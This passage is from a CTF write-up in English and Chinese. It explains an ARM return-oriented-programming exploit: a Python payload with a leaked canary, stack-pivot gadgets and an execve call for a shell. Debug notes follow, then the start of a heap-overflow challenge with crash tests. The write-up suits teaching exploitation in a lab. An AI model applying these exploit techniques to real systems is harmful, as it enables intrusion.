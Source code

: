 At first I think one `subsp` is enough, but the I found there is a `LEN+0x14` restriction of the read buffer length, so the payload can't exceed `old lr`, there fore we need to `subsp`s.

Then for the `pc` of  `pop {r0, r1, r2, pc}`, I use the real address of "/bin/shell" minus the real address of 0x11e4, since there is a `add	r0, pc, r0` at 0x11e4, we need to sub it first.

As for the computation of sp of `hear`, I use **brutal-force**. Since the stirng "/bin/shell" is wide enough, so I try range `[stack_addr - 0x80, stack_addr + 0x80, 0x8]` to see if any "command not found" hint is printed, and find the correct sp at `stack_addr - 0x40` .

And the fp must be set since execve needs it to maintain stack structure. Here old fp should be `sp + 0x30`.

Thus, the payload is constructed as follows:

```python
payload = b"/bin/shell".ljust(0x18, b'\0')
payload += p32(gift_offset + popr0_binaddr)
payload += p32(sp+4 - (gift_offset + addr0pc_binaddr))  # r0 of execve
payload += p32(canary)
payload += p32(gift_offset + subsp_binaddr)        # r4 = second subsq
payload += p32(gift_offset + execve_nor0_binaddr)  # sl = execve_nor0
payload += p32(sp + 0x30)                          # correct fp
payload += p32(gift_offset + subsp_binaddr)        # lr = first subsp
```

And get shell:

<img src="assets/image-20210702200322591.png" style="zoom:50%;" />

### Debug

1. 一开始想获得hear的sp是用gdb获得的sp减去同一次运行时的prepare输出获得offset。后来发现因为没设断点，所以gdb输出的sp是read函数的不是hear函数的，因此改成用推算的
2. 为什么要用两个sub：因为只用一个的话`(&execve_nor0)`要存到old lr上面去，这样超出了read的buffer大小的限制
3. 为什么要以0x117c作为执行execve的入口：这样既能保证execve的r1和r2参数都是0，也能保证r0能被我修改
    * 题目给`pop {r0, r1, r2, pc}`这个gadget的本意可能要让我们把r0、r1、r2都用pop的方式填写然后直接调用`bl execve`但是这样实在太麻烦了
4. fp不能不改，不如execve出问题了程序照样崩溃
5. 本来改了subsp的canary，后来发现不需要也没问题，猜测程序检查canary是靠`__stack_chk_fail`的，直接用pop pc跳转的话不需要保持canary

## 03_harmheap

### Stage 1: find vulnerability

稍微尝试了一下发现，新建DDL的时候的size是规定了某个大小，并且在size较小时name或content稍大一点程序就会直接崩溃，但是具体的规律并不明显。

进行以下测试：

* size=1，\#name=1, \#content=1不会爆
* size=1，\#name=2, \#content=1不会爆
* size=1，\#name=1, \#content=2会爆
* size=1，\#name=7, \#content=1不会爆
* size=1，\#name=8, \#content=1会爆
* size=1，\#name=7, \#content=2会爆
